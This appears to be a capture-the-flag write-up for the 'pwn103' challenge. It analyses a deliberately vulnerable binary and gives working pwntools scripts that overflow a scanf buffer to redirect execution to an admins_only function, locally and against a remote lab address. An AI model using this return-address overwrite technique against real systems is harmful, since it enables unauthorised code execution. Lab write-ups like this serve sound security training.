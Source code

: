 # Challenge Name : pwn103

category : pwn

# File


Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : False
```

Taking a look at main there's scanf function which can be exploit. So lets try exploit by running the program

`give permission`
```
chmod +x pwn103-1644300337872.pwn103
```
`run program`
```
./pwn103-1644300337872.pwn103
```

Lets give a bunch of AAAAAAAAAAAAAAAAA

it just call the main function back when we give invalid input

![alt text](../images/image-3.png)

Okay lets check the case 1 till 5 the function they called whether there is vulnerabilities there

In case 3 , There is scanf function

Lets try to give a bunch of A again


```
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try harder!!! 💪
zsh: segmentation fault  ./pwn103-1644300337872.pwn103
```

We found the vulnerable function to be exploit

`But how to call system ???`

There is no call system in main or any other function in main. But if we take a look at functions

![](../images/image-3-2.png)

There's sys.admins_only . So lets  checkout this function

![alt text](../images/image-3-3.png)

There's is call system

## Goal

Now our goal is to change the return address of general function which can be exploit to sys.admins_only() function. So instead of going back to main() it return to sys.admins_only().

![alt text](../images/image-4-3%201.png)


# Python Script

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + admin_address

p = process()

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

## Remote

#p = process()
p = remote("10.10.100.218",9003)

By changing that code only

we get into an MOVAPS  issue which affect ubuntu 18 which is the our remote server

to fix this issue. 
we have to padding ROP chain with extra ret or skip a push intruction
To make life easy I just add banner address before the admin-address

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
banner_address = p64(binary.symbols.banner)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + banner_address + admin_address

#p = process()
p = remote("10.10.100.218",9003)

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

